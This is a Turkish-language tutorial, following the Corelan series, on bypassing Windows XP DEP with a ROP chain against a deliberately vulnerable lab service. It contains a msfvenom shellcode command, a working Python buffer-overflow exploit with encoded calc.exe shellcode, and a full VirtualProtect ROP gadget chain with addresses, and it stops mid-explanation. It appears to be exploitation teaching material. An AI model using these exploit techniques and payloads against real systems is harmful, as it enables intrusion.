










# Exploit Writing Tutorial Part 6 : DEP Bypass

`OS` : Windows XP SP3

`Vulnerable App`: [Vulnerable Service](../vulnerable_softwares/corelanbevulnservice/vulnserv.c)

`Debugger` : [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

`Video - Binary Exploitation 0x0C | Corelan.be Overflow 0x06 DEP Data Execution Prevention` : https://www.twitch.tv/videos/706974962

`Video - Binary Exploitation 0x0D | Corelan.be Overflow 0x06 DEP Bypass and ROP` : https://www.twitch.tv/videos/711987911

`Source` : https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/

`Source-2` : https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/

`Microsoft Visual C++ 2008 Express Edition ` : http://go.microsoft.com/?linkid=7729279

###### `Badchar içermeyen shellcode için` : msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/shikata_ga_nai -f python -b '\x00\x0a\x0d\x20'

# `DEP (Data Execution Prevention) Nedir ?`

`DEP (Data Execution Prevention)` isimli koruma bizim stack alanına yerleştirmiş olduğumuz shellcode'un çalışmaması için ortaya çıkmıştır. Yani stack alanının executable yetkisini elinden almaktadır.  Ancak bu koruma linux dünyasından aşina olduğumuz `NX` koruması gibi program özelinde bir özellik değilde komple sistem/donanım özelinde bir özellik. Bundan dolayı bu korumanın sağlıklı çalışması için `CPU`'nun NX (non executable) desteklemesi, BIOS'da açık olması ve kurduğunuz windows sisteminin bu özelliği desteklemesi gerekmekte. Eğer donanımınız NX destekliyorsa Hardware DEP = Windows DEP && Software DEP = SafeSEH gibi düşünebiliriz. Eğer ki donanımınız NX desteklemiyorsa o zaman Software DEP = Windows DEP olacaktır ki o da bildiğimiz SafeSEH koruması

Tabi sadece bunla sınırlı değil :) Default olarak DEP koruması sadece windows programları/servisleri için aktif olmaktadır. Eğer ki tüm programlar için korumanın çalışmasını isterseniz bunu ayarlardan düzenlemeniz gerekmekte ki bunun içinde farklı durumlar mevcut. Az aşağıda anlatıyor olacağım "Kurulum" kısmındaki gibi Sistem Özellikleri > Gelişmiş > Performans ' da yer alan seçenekler sadece windows programları/servisleri için bir düzenleme getirir. Eğer ki tüm sistem bazında `DEP` korumasını açmak veya kapamak isterseniz o zaman `AlwaysOn` ve `AlwaysOff` seçeneklerine ihtiyacınız olacak ki bunlar içinde komut satırını kullanmanız gerekmekte. `cmd`'yi Administrator yetkisi ile açtıktan sonra `bcdedit.exe /set {current} nx AlwaysOn` veya `bcdedit.exe /set {current} nx AlwaysOff` komutları ile yapabilirsiniz. Tekrardan Default seçeneğe dönmek içinde `bcdedit.exe /set {current} nx OptIn`

Eğer ki programınızın DEP ile uyumlu olarak çalışmasını isterseniz `Visual Studio C++` içerisinde `/NXCOMPAT` seçeneğini ON yapabilirsiniz (Default olarak ON gelmekte sanırım). Dilerseniz değiştirip `Off` durumuna alabilirsiniz ama yinede sistemde DEP aktif olduğu zaman bu uygulamayı da kapsayabilir ve uyumluluk problemleri ortaya çıkabilir. Bunun dışında burda bilmemiz gereken bir husus daha var :) O da bu seçenek sadece x86 mimaride bize sunuluyor. Eğer x64 mimaride derliyorsanız DEP korumasına zorunlu olarak tabi oluyor (İstisna olarak WoW64 modunda çalışan uygulamalar zorunlu olarak DEP korumasına tabi olmaz)

Bunun dışında çalışma zamanında DEP ayarlamak için SetProcessDEPPolicy diye bir API tasarlanmış ancak bu da sadece x86 mimarilerde çalışmakta. Ayrıca DEP AlwaysOn ve AlwaysOff durumlarında da çalışmıyor.

`DEP` hakkında daha fazla bilgi edinmek isterseniz bulduğum birkaç kaynağı şuraya bırakıyorum...

https://docs.microsoft.com/en-us/cpp/build/reference/nxcompat-compatible-with-data-execution-prevention?view=vs-2019

https://docs.microsoft.com/en-us/windows/win32/Memory/data-execution-prevention

https://devblogs.microsoft.com/cppblog/dynamicbase-and-nxcompat/

https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-setprocessdeppolicy?redirectedfrom=MSDN

https://docs.microsoft.com/en-us/archive/blogs/michael_howard/new-nx-apis-added-to-windows-vista-sp1-windows-xp-sp3-and-windows-server-2008


## `Kurulum`

Zafiyetli uygulamayı kurmak için `Visual Studio C++ 2008 Express Edition` kurduktan sonra `New Project` diyerek (Win32 console app) yeni bir proje oluşturun ve repoda bulunan ilgili kodu yazın. Daha sonra derlemeden önce aşağıdaki gibi ayarları yapın





Ayarları bu şekilde yaptıktan sonra `Build` edin. `EXE` dosyası `C:\Documents and Settings\Administrator\Belgelerim\Visual Studio 2008\Projects\<Project Name>\Debug` dizini altına gelecektir.

Daha sonra klasik bof exploitimiz ile bir test edelim bakalım çalışıyor mu ?

```python
import socket
import struct

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

exploit = 'A'*504
exploit += struct.pack("<I", 0x77F31D8A)  # jmp esp
exploit += '\x90'*5
exploit += calc

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 200))
s.send(exploit)
```


Evet buraya kadar bildiğimiz şeylerdi zaten o yüzden anlatma ihtiyacı duymadım şimdi gidip `DEP` korumamızı açıp aynı exploiti bir daha deneyelim





Bilgisayarım > Sağ tık > özellikler > Gelişmiş > Performans > Veri Yürütme Engellemesi (DEP) kısmında ikinci seçeneği seçiyoruz. (Default olarak ilk seçenek seçili olur). Daha sonra makinemizi yeniden başlatıyoruz.

`NOT :` Eğer ki virtualbox kullanıyorsanız makinenizin ayarlarında `System > Processor` kısmında bulunan `PAE/NX` kısmını muhakkak ama muhakkak işaretleyin/açın . Aksi takdirde DEP korumanız çalışmaz

Eğer `DEP` koruması başarı ile açılmışsa exploiti çalıştırdığınızda şöyle bir hata alacaksınız



# `Bypass DEP (Data Execution Prevention)`

Hem windows dünyasında hem de linux dünyasında DEP/NX korumasını atlatma tekniklerinden en meşhuru olan `ROP` yani `return-oriented programming` ile bu korumayı nasıl atlatabileceğimize değineceğim. Eğer ki linux dünyasında bu işin nasıl yürüdüğünü merak ediyorsanız daha önce yazmış olduğum [şu yazı serisine](https://alp.run/2020/07/10/rop_emporium_writeups.html) bakabilirsiniz.

Evet konumuza dönecek olursa nedir bu ROP ? Sonu `RET` yani return ile biten instructionları  sıralayarak (zincir yapısı gibi düşünebiliriz ki zaten rop chain olarakda geçer) registerlar üzerinde oynamamıza olanak sağlayan bir teknik (sonu ret ile biten bu instructionların herbirine gadget diyoruz). Tabi registerlarda bulunan değerlerle oynamamızın bir sebebi var :) Bunun en önemli sebeplerinden birisi de fonksiyonların parametreleri registerlar üzerinden aktarılıyor. Bizde bu registerlara sırasına göre değerlerimizi yüklüyoruz.

Örneğin bu yazıda `VirtualProtect` fonksiyonunun adresini bulacağız ve fonksiyonun istediğimiz parametreler ile çalışması için de registerları düzenleyerek stack alanını executable yapacağız. Daha sonrada shellcode'umuz sahneye çıkacak



https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect?redirectedfrom=MSDN

Burdaki parametrelere hızlıca değinecek olursak eğer `Return address` fonksiyonun işi bittikten sonra nereye dönüleceğini istiyor. `lpAddress` bizim `executable` yapmak istediğimiz stack alanının başlangıç adresini alıyor. `dwsize` vermiş olduğumuz başlangıç adresinden itibaren kaç byte'lık bir alanı `executable` yapacağımızı istiyor. `NewProtect` belirlemiş olduğumuz stack alanına `read-write-execute` yetkilerini mi yoksa `execute-read` yetkilerini mi vereceğiz onu belirliyor. Diğeride zaten `OldProtect` :joy:

Eee tamam bunları öğrendikte nasıl ayarlıcaz bu kadar şeyi ? diye düşünür iken imdadımıza serinin başından beri yanımızda olan `mona.py` yetişiyor. Aşağıdaki komutu Immunity Debuggerımızda programımızı başlattıktan sonra çalıştıralım


    !mona rop -cp nonull -m *.dll

**



Evet böyle bissürü bişi hazırladı . Şuan bizim için önemli olan dosya `rop_chains.txt` isimli dosya.



Burda bize `VirtualProtect` fonksiyonunu kullanarak stack alanımızı executable yapabilmek için registerlara hangi değerleri yazmamız gerektiği konusunda iki seçenek sunmuş. Eğer dikkat edecek olursanız iki seçenektede yukarda anlatmış olduğumuz fonksiyonunun argümanlarının `esp`, `ebx`, `edx`, `ecx` üzerine aynı şekilde yerleştirildiğini görebiliriz. Yani aradaki farklılık sadece `eax`, `ebx`, `esi`, `edi` registerlarını kullanarak `VirtualProtect` fonksiyonunu çağırma şeklinde.

Şimdi biraz daha aşağılara inersek bizim için birkaç farklı dilde registerları bu duruma getirecek rop_chains hazırladığını görebiliriz :) Hizmet gibi hizmet



Python ile yola çıktık python ile devam edelim. Aslında oldukça basit bir rop chain yapısı. Serinin burlarına kadar birşeyleri anlayarak geldiyseniz eğer az çok assembly bilginiz oluşmuştur. Ancak genede hızlıca ne yaptığını anlatayım.

Öncelikle burdaki registerların durumunu az yukarda bahsetmiş olduğumuz iki seçenekten ilkini baz alarak değiştiriyor.

```bash
EAX = NOP (0x90909090)
ECX = lpOldProtect (ptr to W address)
EDX = NewProtect (0x40)
EBX = dwSize
ESP = lPAddress (automatic)
EBP = ReturnTo (ptr to jmp esp)
ESI = ptr to VirtualProtect()
EDI = ROP NOP (RETN)
```

`rop_chain` fonksiyonumuzun ilk kısmı ile başlayalım. (Bütün gadgetların sonu `RET` ile bittiği için devamlı olarak bir sonraki gadget'ı çalıştıracaktır.)

`ESI = ptr to VirtualProtect()`

```python
#[---INFO:gadgets_to_set_esi:---]
0x77c4289b,  # POP EAX # RETN [msvcrt.dll]
0x77c01120,  # ptr to &VirtualProtect() [IAT msvcrt.dll]
0x77e892dc,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [RPCRT4.dll]
0x77eb73b9,  # PUSH EAX # POP ESI # POP EBP # RETN 0x04 [RPCRT4.dll]
0x41414141,  # Filler (compensate)
```

Stack içerisinde bir registerı `POP` ederseniz ve devamında bir adres/değer yazarsanız o yazdığınız adres/değer otomatik olarak o registerın üzerine yazılacaktır. Burda da ilk 2 adres sayesinde VirtualProtect() fonksiyonunun adresini tutan adresi (pointer adresi) `EAX` registerının üzerine kaydetmiş olduk. Daha sonra (3. sıradaki adres/gadget) bu pointer adresini tutmak yerine direk olarak `VirtualProtect()` fonksiyonunun adresini tutmak için `DWORD PTR` kullanarak bunu tekrardan EAX registerının üzerine yazdık (dword ptr [address] derseniz eğer o adreste bulunan değeri getirecektir. Burda VirtualProtect adresini tutan pointerın adresine sahip olduğumuz için ve fonksiyonumuzun adresini direk olarak elde etmek istediğimizden böyle bir yöntem kullandık)

Ve son olarak EAX üzerine yazdığımız fonksiyon adresini ESI üzerine aktarmak istediğimiz içinde bu adresi önce `PUSH EAX` ile stack alanına pushladık. `POP EBP` ile `EBP` değerini `0x41414141` yaptık. Geriye kalan `POP ESI` komutuda stack'in en üstünde bulunan virtualprotect fonksiyonunun adresini almış oldu.

`NOT` : Normalde burda `EBP` registerının değerini değiştirmeye ihtiyacımız yoktu ancak işimize yarayacak komutu/komutları içeren gadget içerisinde `pop ebp` komutuda bulunmakta. Bu tarz durumlarda `pop ebp` bizim için bir `yan etki` olduğundan dolayı ona rastgele bir değer vererek asıl amacımız/planımız dışında başka bir durum oluşmasını engellemiş olduk

`EBP = ReturnTo (ptr to jmp esp)`

```python
#[---INFO:gadgets_to_set_ebp:---]
0x7c91648c,  # POP EBP # RETN [ntdll.dll]
0x41414141,  # Filler (RETN offset compensation)
0x71aa2b53,  # & push esp # ret  [WS2_32.dll]
```

Burda da kısaca `EBP` adresi içerisine `push esp` işlemi gerçekleştiren instruction adresi yazıyor.

Burda neden arada `0x41414141` var diye soracak olursanız eğer yukarda anlatmış olduğumuz, `esi` registerına `VirtualProtect` adresini yazdığımız, kısmın en altındaki gadget normal return yapmak yerine `return 0x04` işlemi gerçekleştirmiş. Bu da bir sonraki adresi return et ve `esp`'nin gösterdiği yeri 4 byte ileri taşı demek oluyor. Bundan dolayı arada atlamış olduğu 4 byte'lık kısmı `0x41414141` yapmış olduk

`EBX = dwSize`

```python
#[---INFO:gadgets_to_set_ebx:---]
0x77ebb5d2,  # POP EAX # RETN [RPCRT4.dll]
0xfffffdff,  # Value to negate, will become 0x00000201
0x7e39493b,  # NEG EAX # RETN [USER32.dll]
0x77de563a,  # XCHG EAX,EBX # RETN [ADVAPI32.dll]
```

Önce `EAX` registerına negatif olarak `0x00000201` yazıyor. Daha sonra negatif değeri tekrardan `NEG` komutuyla pozitif değere çevirmiş oluyor. `XCHG` komutu ilede EAX ve EBX registerlarındaki değerleri yer değiştirtiyor.

Neden negatifini aldık diye soracak olursanız eğer `0x00000201` null byte içerdiği için dolaylı yoldan bu değeri yazacak bir yola ihtiyacımız vardı diyebiliriz.

`EDX = NewProtect (0x40)`

```python
#[---INFO:gadgets_to_set_edx:---]
0x77c24de1,  # POP EAX # RETN [msvcrt.dll]
0xffffffc0,  # Value to negate, will become 0x00000040
0x77e8bf1a,  # NEG EAX # RETN [RPCRT4.dll]
0x77c48fbc,  # XCHG EAX,EDX # RETN [msvcrt.dll]
```

Yukarda anlatmış olduğumuz hususun aynısını burda da gerçekleştiriyoruz ve `EDX` registerı üzerine `0x40` yazmış oluyoruz.

`ECX = lpOldProtect (ptr to W address)`

```python
#[---INFO:gadgets_to_set_ecx:---]
0x77c2a25b,  # POP ECX # RETN [msvcrt.dll]
0x77efcd2d,  # &Writable location [RPCRT4.dll]
```

Açıklanacak bişi yok herşey ortada :smile:

`EDI = ROP NOP (RETN)`

```python
#[---INFO:gadgets_to_set_edi:---]
0x77c1a88c,  # POP EDI # RETN [msvcrt.dll]
0x77e8b47e,  # RETN (ROP NOP) [RPCRT4.dll]
```

EDI registerının içerisine sadece return komutunu gerçekleştiren bir adres yüklendi

`EAX = NOP (0x90909090)`

```python
#[---INFO:gadgets_to_set_eax:---]
0x7c80998d,  # POP EAX # RETN [kernel32.dll]
0x90909090,  # nop
```

EAX registerına `NOP` karakterler yüklendi

`The End`

```python
#[---INFO:pushad:---]
0x77e9edb2,  # PUSHAD # RETN [RPCRT4.dll]
```

Ve sonunda herşey bitti ve PUSHAD komutu ile tüm registerları stack içerisine gönderdi . Peki hangi sırayla gidiyor bu registerlar ?

    PUSHAD => EAX , ECX , EDX , EBX , ESP , EBP , ESI , EDI

Stack içerisine sırayla bu registerları gönderdi. Peki şimdi olaylar nasıl gelişecek...

Önce EDI adresindeki sadece return işlemi gerçekleştiren instruction çalışacak ve ESI adresinde bulunan `VirtualProtect` fonksiyonunu çalıştıracak (ESI registerı)



